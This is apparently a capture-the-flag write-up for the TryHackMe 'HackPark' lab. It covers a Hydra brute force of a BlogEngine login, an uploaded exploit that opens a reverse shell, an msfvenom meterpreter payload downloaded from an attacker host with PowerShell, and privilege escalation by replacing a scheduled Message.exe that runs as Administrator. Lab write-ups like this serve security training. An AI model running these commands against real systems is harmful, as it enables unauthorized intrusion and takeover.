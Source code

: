 #
header
#

### Section 1 : Scanning and Recon

Let's start with a nmap : 

![image](/assets/img/HackPark/nmap.png)

We see that a web server is running, let's go check what it's all about.

![image](/assets/img/HackPark/web.png)

On the nav-bar, you see that their is a page to log-in, let's check that out.

![image](/assets/img/HackPark/navlog.png)

We have a log-in page, THM tells us to use Hydra to brute-force a login so let's do it !

![image](/assets/img/HackPark/log.png)

### Brute Forcing with Hydra 

_Hydra is a parallelized, fast and flexible login cracker._

First, we need to know the type of request the form is making to the webserver.
I just inspected the page then search for "method" in the search bar.

![image](/assets/img/HackPark/method.png)

Then launch the hydra attack with the following : 
```bash 
hydra -v -l admin -P /home/edwards/Downloads/rockyou.txt 10.10.7.187 http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -t 64
```

With the post that was on the main page, we can guess that the username is admin.
Then we need to give a list to find the password and the right request that we found with the inspect element (or with BurpSuite)

![image](/assets/img/HackPark/resulthydra.png)

Let's login after our Brute Forcing Attack.

On the "about" section, we find interesting informations about he blogengine version.

![image](/assets/img/HackPark/version.png)

Let's google the version to find an exploit. 
On exploit DB I found this : 

![image](/assets/img/HackPark/cve.png)

We have all the informations required to launch this exploit successfully. 
We need first to change the ip addresse and the port inside the file.

![image](/assets/img/HackPark/postac.png)

Save it as PostView.ascx then go to the editor, create a new post or take the one already created.

Select the icon to upload a file. 

![image](/assets/img/HackPark/upload.png)

Set up a netcat connection.
```bash 
nc -lnvp 5555 
```

Then go the url specified in the exploit file. 
```bash 
http://<ip>/?theme=../../App_Data/files
```

And normally on your netcat terminal you will have a shell ! 

![image](/assets/img/HackPark/netcat1.png)

#### Section 3 : Priv esc with Metasploit

We need to get a meterpreter session, since the one we have right now is pretty unstable.
We are gonna create a msfvenom payload, then set a multi handler on our msf console.

First, download the payload with msfvenom.
```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.15.91 LPORT=4555 -f exe > shell.exe
```

![image](/assets/img/HackPark/createpayload.png)


We need to find a directory where we have to right to put a file in.
I went to c:\Windows\Temp, in general it's commun that you will have the authorization to writein it. 

Set Up a python simple server on an other terminal to send the payload.
```bash
python -m http.server
```

![image](/assets/img/HackPark/python.png)

Then upload the msfvenom payload in the windows machine. 
```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.11.15.91:8000/shell.exe' -OutFile 'shell.exe'
```

![image](/assets/img/HackPark/upload1.png)
_As you can see the file is in_

Now we are gonna create a listener on msfconsole.

![image](/assets/img/HackPark/msfoptions.png)
_Be sure to set the same port that the mfsvenom payload that you created before_

Launch the shell.exe
```bash
.\shell.exe
```

And you will have a meterepreter session open ;) 

![image](/assets/img/HackPark/meter.png)

#### Section 4 : Priv esc with winPEAS 

I'm gonna upload winPEAS on the machine to get infos.

Same manipulation with the python server up. 

```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.11..15.91:8000/winPEAS.bat' -OutFile 'winPEAS.bat'
```

You can also use the 'ps' command of meterpreter for this box.

![image](/assets/img/HackPark/winupload.png)

We can see that there is a WindowsScheduler process running, that can be exploitable.

![image](/assets/img/HackPark/scedule.png)

Let's move to the SystemScheduler directory located at : 
c:\Program Files (x86)\SystemScheduler

![image](/assets/img/HackPark/ls.png)

We have an events directory, let's see what's inside.

![image](/assets/img/HackPark/events.png)

I looked into the "20198415519.INI_LOG.txt" 
Inside you can see that every 30 sec, the message.exe is launched then killed, since the file runs as Administrator we can take advantage of this to create a payload and run it as Message.Exe.

![image](/assets/img/HackPark/log.png)

Upload again your shell.exe in the previous directory where Message.exe is stored.
```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.11.15.91:8000/shell.exe' -OutFile 'shell.exe'
```

![image](/assets/img/HackPark/shell.png)
_the file is uploaded into the SystemScheduler_

Then move the Message.exe as Message.bat and your shell.exe as Message.exe
Background your session and you will have an other opening and you will be Administrator !

![image](/assets/img/HackPark/admin.png)

Then you can look for flags.

